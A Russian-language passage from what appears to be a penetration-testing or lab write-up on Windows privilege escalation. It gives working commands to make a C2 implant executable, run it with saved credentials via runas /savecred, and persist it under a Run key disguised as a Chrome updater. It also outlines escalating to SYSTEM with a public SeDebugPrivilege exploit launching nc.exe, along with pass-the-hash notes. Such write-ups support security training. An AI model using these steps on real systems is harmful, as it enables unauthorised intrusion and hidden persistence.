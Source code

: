 Вот и нашелся потенциальный вариант для повышения привилегий.

![[Pasted image 20241112204658.png]]

Даем права всем на исполнение нашего C2

```
icacls "c:\windows\tasks\x2.exe" /grant *S-1-1-0:(RX)
```

```
runas /savecred /user:TERMINAL\svc "c:\windows\tasks\x2.exe"
```

### Как работает `/savecred`

> [!NOTE]
> Когда вы используете `/savecred` вместе с `runas`, Windows запросит пароль для указанного пользователя (в данном случае `TERMINAL\svc`) только один раз. После этого Windows сохранит эти учетные данные в **Диспетчере учетных данных**. При последующих запусках команды с этим же параметром `/savecred` и тем же пользователем, пароль вводить уже не потребуется.

![[Pasted image 20241112205430.png]]

Все теперь мы можем рбаотать от имени svc. Не забываем снова закрепиться.

```
shell reg add "HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v GoogleChromeUpdatex2 /t REG_SZ /d "c:\windows\tasks\x2.exe" /f
```

# Повышаемся до уровня системы

Идея заключается в следующем: если у нас есть привилегия `SeDebugPrivilege`, то мы можем использовать инструмент с GitHub [bruno-1337/SeDebugPrivilege-Exploit](https://github.com/bruno-1337/SeDebugPrivilege-Exploit/releases) для запуска `nc.exe` (или аналогичной программы) от имени `SYSTEM`. Это позволит получить доступ к командной оболочке с системными правами.

Стоит учитывать тот факт


> [!NOTE]
> Привилегия резервного копирования
> Система должна предоставить весь контроль доступа на чтение к любому файлу (ограниченный операциями чтения) с помощью этой привилегии. Он используется для чтения хэшей паролей локальных учетных записей администратора из реестра, после чего такие инструменты, как "psexec" или "wmiexec", могут быть использованы с хэшем (метод Pass-the-Hash). Однако этот метод не работает при двух условиях: когда учетная запись локального администратора отключена или когда существует политика, которая удаляет административные права у локальных администраторов, подключающихся удаленно

В havoc есть готовый модуль для включения данной привилегии. Логично, что если мы ее не включим, то эксплоит не сработает. Обязательно учитывайте тот факт, что эту команду нужно вводить каждый раз, когда вы подключаетесь к новой сессии. 

```
token privs-get SeDebugPrivilege
```
